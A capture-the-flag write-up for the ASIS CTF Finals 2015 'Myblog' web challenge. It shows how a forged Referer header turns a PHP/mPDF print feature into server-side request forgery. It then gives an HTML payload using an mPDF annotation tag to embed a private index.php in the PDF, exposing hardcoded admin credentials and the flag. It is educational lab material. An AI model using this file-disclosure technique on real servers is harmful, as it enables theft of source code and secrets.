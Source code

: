 ```yaml
---
title: "ASIS CTF Finals 2015 - Myblog (Web)"
header:
  overlay_image: /assets/images/asisfinals2015/myblog/header.jpg
  overlay_filter: 0.5
tags:
  - asisfinals2015
  - writeup
  - web
---
```


Server-side request forgery in a PDF page printer service in PHP leading to
disclosure of secrets in a server-side PHP source code.

## Challenge Description

#### Points

150

#### Solves

30

#### Description

```
Go there and find the flag.
```

## Solution

We are just given a link for this one: http://myblog.asis-ctf.ir:8088/. The web
app we have to attack is a simple PHP blog site.

![1]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/1.png){: .align-center}

If we visit a link, we have some very boring article text but at the bottom, we
have some interesting buttons to click.

![2]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/2.png){: .align-center}

Now, the page is vulnerable to reflected XSS in the id parameter. However, that
was simply a red herring. The real problem here was the 'Print' function. When
clicking, it makes a GET request to
`http://myblog.asis-ctf.ir:8088/printpage.php?id=2417648298`.

Let's investigate more.

![3]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/3.png){: .align-center}
![4]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/4.png){: .align-center}

So, a PDF is created of the page. The Referer field looks really interesting
here! Let's modify it to see if we can get it to render something arbitrary.

![5]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/5.png){: .align-center}
![6]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/6.png){: .align-center}

It's a little horrible to look at, but yes!, google.com is getting rendered.
Okay, but what can we render? Let's backtrack and try something elementary:
robots.txt.

![7]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/7.png){: .align-center}

If we try to navigate there...

![8]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/8.png){: .align-center}

But, let's use our printpage.php we found earlier to navigate instead.

![9]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/9.png){: .align-center}
![10]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/10.png){: .align-center}

Now, we need to find a way to log in. We don't have a username or password or
any idea of how to submit the form in the first place. However, if we download
the pdf, it's called mpdf.pdf. Unfortunately, there's no way to retrieve the
source code of the page in that.

We need something more. If we spend some time reading the mpdf manuals, we
eventually come across this page: http://mpdf1.com/manual/index.php?tid=284.

![11]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/11.png){: .align-center}

With this tag, we can include a file to be embedded inside the PDF document. So
what happens if we try to include `./myblog_private_dir3ct0ry/index.php`? We can
create this file and upload it on our own web server.

```html
<html>
    <head>
    </head>
    <body>
    <annotation content="wtf" file="./myblog_private_dir3ct0ry/index.php" />
    </body>
</html>
```

This should create an annotation in the created PDF that contains the source
code of the forbidden index.php.

![12]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/12.png){: .align-center}
![13]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/13.png){: .align-center}

Contained in the annotation shown above is the PHP code:

```php
<?php
    if (!preg_match('/87\.107\.123\..*/', $_SERVER['REMOTE_ADDR']) && !preg_match('/131\.72\.139\..*/', $_SERVER['REMOTE_ADDR']) && !preg_match('/192\.168\.1\..*/', $_SERVER['REMOTE_ADDR'])) {
        header('HTTP/1.0 403 Forbidden');
?>
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /blog/admin/
on this server.<br />
</p>
</body></html>
<?php
        exit();
    }

    $error = false;
    if (isset($_REQUEST['username']) && isset($_REQUEST['password']) && isset($_REQUEST['login'])) {
        if ($_REQUEST['username'] === 'admin' && $_REQUEST['password'] === 'admin') {
?>
<html>
    <head>
        <title>My Blog - Admin Panel</title>
    </head>
    <body>
        <h1>ASIS{<?php echo md5('this is asis. not a simple ctf'); ?>}</h1>
    </body>
</html>
<?php
            exit();
        }
        $error = true;
    }
?>
<html>
    <head>
        <title>My blog - Admin Panel</title>
    </head>
    <body>
        <div>
            <h1>My Blog</h1>
            <h2>Admin Panel</h2>
            <?php echo ($error)?'<h3 style="color:red">Username or Password is wrong</h3>':''; ?>
        </div>
        <div>
            <form>
                <input type="text" name="username" placeholder="Username"/>
                <input type="text" name="password" placeholder="Password"/>
                <input type="submit" name="login" value="Login"/>
            </form>
        </div>
    </body>
</html>
```
We actually have our flag here, but let's take it all the way to the end. So,
all we need to do know to get the flag is submit a request with the parameters
"username=admin&password=admin&login".

![14]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/14.png){: .align-center}
![15]({{ site.url }}{{ site.baseurl }}/assets/images/asisfinals2015/myblog/15.png){: .align-center}

And we have our flag: **ASIS{9c846eab5200c267cb593437780caa4d}**
